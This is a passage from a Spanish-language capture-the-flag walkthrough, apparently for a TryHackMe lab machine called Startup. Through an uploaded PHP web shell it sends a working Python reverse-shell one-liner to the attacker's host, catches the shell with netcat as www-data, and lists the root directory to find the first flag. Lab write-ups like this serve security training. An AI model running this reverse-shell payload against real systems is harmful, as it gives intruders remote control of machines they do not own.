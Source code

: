 ![""](/assets/images/thm-startup/startup4.png)

Ya tenemos ejecución de comandos a nivel de sistema, por lo tanto vamos a entablarnos una reverse shell por el puerto 443:

```bash
10.10.111.163/files/ftp/neutrino.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.85.95",8443);os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
❯ nc -nlvp 8443
listening on [any] 8443 ...
connect to [10.9.85.95] from (UNKNOWN) [10.10.111.163] 49546
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya nos encontramos dentro de la máquina y para trabajar más cómodos, haremos un [Tratamiento de la tty](/posts/tratamiento-tty).  En el directorio root ya podemos ver la primer flag en el archivo `recipe.txt`:

```bash
www-data@startup:/var/www/html/files/ftp$ cd /
www-data@startup:/$ ls -la
total 100
drwxr-xr-x  25 root     root      4096 Jun 29 05:51 .
drwxr-xr-x  25 root     root      4096 Jun 29 05:51 ..
drwxr-xr-x   2 root     root      4096 Sep 25  2020 bin
drwxr-xr-x   3 root     root      4096 Sep 25  2020 boot
drwxr-xr-x  16 root     root      3560 Jun 29 05:50 dev
drwxr-xr-x  96 root     root      4096 Nov 12  2020 etc
drwxr-xr-x   3 root     root      4096 Nov 12  2020 home
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
lrwxrwxrwx   1 root     root        33 Sep 25  2020 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root        33 Sep 25  2020 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x  22 root     root      4096 Sep 25  2020 lib
drwxr-xr-x   2 root     root      4096 Sep 25  2020 lib64
drwx------   2 root     root     16384 Sep 25  2020 lost+found
drwxr-xr-x   2 root     root      4096 Sep 25  2020 media
drwxr-xr-x   2 root     root      4096 Sep 25  2020 mnt
drwxr-xr-x   2 root     root      4096 Sep 25  2020 opt
dr-xr-xr-x 130 root     root         0 Jun 29 05:50 proc
-rw-r--r--   1 www-data www-data   136 Nov 12  2020 recipe.txt
drwx------   4 root     root      4096 Nov 12  2020 root
drwxr-xr-x  25 root     root       920 Jun 29 06:00 run
drwxr-xr-x   2 root     root      4096 Sep 25  2020 sbin
drwxr-xr-x   2 root     root      4096 Nov 12  2020 snap
drwxr-xr-x   3 root     root      4096 Nov 12  2020 srv
dr-xr-xr-x  13 root     root         0 Jun 29 05:50 sys
drwxrwxrwt   7 root     root      4096 Jun 29 06:08 tmp
drwxr-xr-x  10 root     root      4096 Sep 25  2020 usr
drwxr-xr-x   2 root     root      4096 Nov 12  2020 vagrant
drwxr-xr-x  14 root     root      4096 Nov 12  2020 var
lrwxrwxrwx   1 root     root        30 Sep 25  2020 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root        30 Sep 25  2020 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
```